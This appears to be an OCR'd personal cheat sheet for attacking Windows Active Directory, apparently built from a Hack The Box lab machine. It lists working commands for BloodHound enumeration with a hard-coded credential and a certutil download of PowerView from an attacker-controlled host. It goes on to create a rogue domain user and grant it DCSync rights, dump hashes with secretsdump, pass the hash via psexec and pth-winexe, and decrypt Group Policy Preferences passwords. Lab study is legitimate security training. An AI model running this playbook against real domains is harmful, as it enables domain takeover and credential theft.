 ## Active Directory
    - Good links on how to use all of Impackets tools and running commands
        - https://neil-fox.github.io/Impacket-usage-&-detection/
        - https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
    - Must get access to system first (RDP, evil-winrm, telnet, etc.)
    - Enumeration
        - Data gathering
            - Local:
                - sharphound.ps1
                - sharphound.exe
            - Remote:
                - Bloodhound-python
                    > bloodhound-python -u svc-alfresco -p s3rvice -d htb.local -ns 10.10.10.161 -c All
                    - You should now have 4 .json files
        - Analyize 
            - Open neo4jdb (MAKE sure to check your /etc/hosts file and make sure "localhost 127.0.0.1" is set)
                > sudo neo4j console
            - Open bloodhound3 (DONT USE SUDO)
                > bloodhound
            - Login (neo4j/<your password>)
            - Select "upload data" on the right (Highlight all 4 .json files, and select "Upload")
            - Seach for your user you have access to top left ("svcalfresco@htb.local")
            - Select user in graph
            - Select "Node Info" on left
            - Select "Reachable high value targets"
    - Add a admin user (if you have found poorly configured group permissions to allow you to create users)
        - Download PowerView.ps1 onto the system first
            > certutil.exe -urlcache -split -f http://10.10.14.25:8088/PowerView.ps1 C:\Users\svc-alfresco\Downloads\PowerView.ps1
        - Run the following commands to create a user for Impacket to gather hashs with
            > Import-Module .\PowerView.ps1
            > net user eivluser password /add /domain
            > net group "Exchange Windows Permissions" /add eviluser
            > $pass = convertto-securestring 'password' -AsPlainText -Force
            > $cred = New-Object System.Management.Automation.PSCredential('htb\eviluser', $pass)
            > Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity rana -Rights DCSync
        - From Kali run the following to gather hashes
            > impacket-secretsdump htb.local/eviluser:password@10.10.10.161
        - Pass the hash
            > psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 -target-ip 10.10.10.161 administrator@10.10.10.161
            > pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 \\10.10.10.161 cmd.exe
    - gpp-decrypt (Decrypt Group Policy Preferences password)
        - Good information found here
            - https://adsecurity.org/?p=2288
        - Find gpp files (In Windows)
            > findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
        - gpp-decrypt
            > gpp-decrypt <aes-256 "cpassword" string>
